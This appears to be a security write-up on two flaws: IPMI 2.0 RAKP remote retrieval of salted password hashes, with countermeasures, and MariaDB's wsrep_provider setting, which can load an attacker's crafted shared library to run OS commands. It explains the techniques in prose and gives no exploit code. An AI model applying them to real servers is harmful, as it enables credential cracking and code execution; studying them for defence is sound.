The BMC commonly supports interfaces such as IPMI (Intelligent Platform Management Interface) or more modern interfaces like the Redfish API, which allow administrators to remotely monitor and control physical hardware.

IPMI (Intelligent Platform Management Interface) is a popular hardware management interface specification widely used for managing server hardware, especially in data centers and enterprise environments. Through IPMI, administrators can monitor system health, log events, manage power, and remotely control the system, even if the operating system is not running or the server is turned off. However, as with any remote management tool, if not properly configured or managed, IPMI could pose a security risk.

### IPMI 2.0 RAKP Authentication Remote Password Hash Retrieval

The vulnerability in question relates to a security issue within the Remote Authentication and Key Exchange Protocols (RAKP) of the Intelligent Platform Management Interface (IPMI) version 2.0. IPMI is a suite of computer interface specifications that allows a separate computer subsystem to provide management and monitoring capabilities independently of the host system's CPU, firmware, and operating system.

#### Vulnerability Details

- **Vulnerability Name:** IPMI 2.0 RAKP Authentication Remote Password Hash Retrieval
- **Affected Component:** RAKP Authentication Protocol
- **Issue Description:** In IPMI 2.0, there is a design flaw within the RAKP protocol that allows remote attackers to retrieve stored user password salted hashes via a simple request. These hashes may be encrypted with MD5 or SHA1 algorithms. If an attacker requests a username that exists, the server will return the salted hash associated with that username. These hashes can then be used by the attacker to attempt offline password cracking.
- **Security Risk:** This vulnerability enables attackers to obtain password hashes with minimal effort and subsequently use common password cracking tools, such as John the Ripper or Hashcat, to crack the passwords. This significantly reduces the complexity and time cost of the attack.

#### Countermeasures

- **Firmware Updates:** Manufacturers may provide firmware updates to fix this vulnerability. Administrators should regularly check the manufacturer's support website to download and install the latest firmware version.

- **Password Policy:** Enforcing complex password policies can reduce the risk of passwords being cracked.

- **Network Segregation:** Place management interfaces within a restricted network and limit the ability to access these interfaces, thereby reducing the risk of malicious access.

- **Use of VPN:** Access management interfaces via VPN or other encryption methods to add an additional layer of security.

- **Disable Unnecessary Services:** If IPMI services are not required, the safest practice is to disable them on the device.

### MySQL's Galera Cluster & wsrep_provider

The `wsrep_provider` is a configuration parameter used in MySQL's `Galera Cluster`. Galera Cluster is a system for synchronous multi-master replication that provides a true multi-master cluster functionality almost seamlessly integrated with MySQL. The wsrep_provider specifies the path to the library that implements Write-Set Replication (WSR). This library is a core component of the Galera Cluster, responsible for replicating data changes across different nodes of the cluster.

When you configure a MySQL server to be part of a Galera Cluster, you need to set this parameter in the my.cnf (or my.ini, depending on the operating system) configuration file, as shown below:

```console
[mysqld]
# Path may vary depending on the installation location of the Galera plugin and the operating system
wsrep_provider=/usr/lib/galera/libgalera_smm.so
```

Here, `/usr/lib/galera/libgalera_smm.so` is the path to the Galera replication provider library. This path may vary depending on the system installed and the version of Galera.

Other important `wsrep_` parameters include:

- `wsrep_cluster_name`: The name of the cluster.
- `wsrep_cluster_address`: The addresses of other nodes in the cluster for inter-node communication.
- `wsrep_node_name`: The name of the current node.
- `wsrep_node_address`: The address of the current node.
- `wsrep_sst_method`: The method for State Snapshot Transfer (SST), which is used to synchronize data when a new node joins the cluster.

The command `SET GLOBAL wsrep_provider="/path/to/.so"` changes the `wsrep_provider` setting at runtime, and the effect is system-wide, meaning it affects all sessions that connect after the change is made. However, this change is not permanent and will be reset when the server restarts. For a change to be permanent, it needs to be written in the database server's configuration file.

Here's some potential reasons why this command can trigger an OS command execution:

1. **Unrestricted File Loading**: MariaDB does not properly restrict the path from which the `wsrep_provider` library can be loaded.
2. **Code Execution**: The `wsrep_provider` parameter expects the path to a shared library (.so file on Linux). If an attacker can specify the path to their own crafted library, they can execute arbitrary code.
3. **Insufficient Privilege Checks**: If MariaDB service has sufficient privileges and does not check the privileges of the user setting the `wsrep_provider`, an attacker with lower privileges could exploit this to gain higher privileges by executing a command as the MariaDB service user, which might have higher system privileges.
